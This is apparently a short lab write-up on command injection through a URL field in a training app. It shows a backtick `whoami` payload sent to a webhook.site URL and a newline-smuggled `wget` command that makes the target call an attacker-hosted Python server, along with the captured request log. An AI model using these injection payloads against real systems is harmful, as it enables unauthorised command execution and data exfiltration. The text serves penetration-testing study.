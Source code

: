 So it filters our input in some way that makes the semicolons disappear

let's try webhook command injection

<pre><code><strong>https://webhook.site/3b654785-96d1-X.X.X.X.X?`whoami`
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

we captured the request, and it prints out the useful information we need

let's try to play with what we have to get more useful information:

let's host a python server:

```
┌──(root㉿kali)-[/home/kali]
└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
```

```
https://tcm-sec.com \n wget 172.16.X.X:9898/test
```

```
┌──(root㉿kali)-[/home/kali]
└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
172.18.X.X - - [31/Jan/2024 11:03:15] code 404, message File not found
172.18.X.X - - [31/Jan/2024 11:03:15] "HEAD /test HTTP/1.1" 404 -
```
